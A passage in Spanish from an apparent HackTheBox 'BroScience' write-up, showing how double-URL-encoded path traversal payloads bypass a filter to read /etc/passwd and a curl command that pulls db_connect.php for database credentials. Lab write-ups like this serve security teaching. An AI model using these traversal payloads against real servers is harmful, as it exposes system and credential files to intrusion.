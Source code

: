 Parece que se nos resiste un poco...  En este punto vamos a buscar un payload mediante el cual hacer bypass y acceder. Usaremos los [payloads ](https://github.com/omurugur/Path\_Travelsal\_Payload\_List/blob/master/Payload/Dp.txt)de Omurugur y hacemos fuzzing para descubrir cuales nos permiten acceder. Descubierto el Payload solo debemos comenzar a lanzar peticiones y seguir con el descubrimiento y encontraremos que mediante [doble encoding](https://owasp.org/www-community/Double\_Encoding) conseguimos lanzar peticiones maliciosas.. En nuestro caso usaremos el payload `..%252f..%252f..%252f..%252fetc%252fpasswd` de cara a localizar el contenido de `/etc/passwd .`&#x20;

<figure><img src="../../../../.gitbook/assets/12.png" alt=""><figcaption></figcaption></figure>

Dado que tenemos una base de datos de postgresl nos lanzamos a ver que encontramos en ese archivo db\_connect.php&#x20;

```bash
curl https://broscience.htb/includes/img.php?path=%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%37%36%25%36%31%25%37%32%25%32%66%25%37%37%25%37%37%25%37%37%25%32%66%25%36%38%25%37%34%25%36%64%25%36%63%25%32%66%25%36%39%25%36%65%25%36%33%25%36%63%25%37%35%25%36%34%25%36%35%25%37%33%25%32%66%25%36%34%25%36%32%25%35%66%25%36%33%25%36%66%25%36%65%25%36%65%25%36%35%25%36%33%25%37%34%25%32%65%25%37%30%25%36%38%25%37%30 --insecure
```
